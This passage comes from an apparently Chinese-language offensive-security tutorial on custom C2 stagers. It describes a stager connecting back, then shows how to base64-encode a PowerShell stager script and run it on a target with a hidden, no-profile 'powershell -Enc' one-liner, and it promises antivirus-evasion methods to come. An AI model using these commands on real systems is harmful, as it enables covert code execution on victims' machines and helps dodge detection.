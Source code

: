 ### 执行效果

运行后，成功上线，其中WireShark中监测到的通信流量和上面两种类似，就不对其深入分析。  
![p9aH7ng.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-b70254fc916abf3b73c630f35c0e1221b751bd1e.png)

实际上，这里使用到的 Add-Type 并非完全在内存中执行，而是会在硬盘中产生文件，这些将在下篇中讨论并给出解决方法（反射加载）

### OneLine

为了更加便捷上线，可以直接在 Powershell 中使用一行命令直接执行上述代码。  
首先将上述代码进行加密。

```shell
cat stager.ps1 | iconv --to-code UTF-16LE | base64 -w 0
```

![p9BHlX6.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-7548ef91b1eb1306ae9a29b838d5fea9e8a155a6.png)  
接着在目标主机上执行

```shell
powershell.exe -nop -w hidden -Enc JABzAGgAZQBsAGwAIAA9ACAAQAAiACAACgB1AH...
```

效果同上，成功上线。

后续
--

当然，自定义 Stager 不仅仅只有上述三种方式，但这已经足够去利用和拓展了，之后关于Stager部分将会以进一步免杀和另一类实现思路两种角度进行拓展。